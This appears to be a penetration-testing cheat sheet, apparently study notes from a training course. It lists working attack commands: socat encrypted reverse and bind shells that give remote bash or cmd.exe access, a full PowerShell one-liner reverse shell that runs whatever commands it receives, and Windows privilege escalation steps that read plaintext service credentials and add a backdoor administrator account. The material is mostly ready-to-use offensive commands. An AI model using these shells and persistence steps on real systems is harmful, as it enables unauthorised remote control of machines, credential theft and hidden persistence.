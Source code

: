 > What the shell

# Socat Encryoted Shells

For normal reverse shells in socat we have to pass `TCP:<PORT>` but here we have to pass `OPENSSL`. First we need to generate a certificate to get an encrypted shell!

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`.
This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`.

# Bind Shell

## Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

## Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

# OneLiner powershell reverse shell

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

# List payloads in msfvenom

`msfvenom --list payloads`

# Windows Priv Esc

It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`
. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

```
net user <username> <password> /add

net localgroup administrators <username> /add
```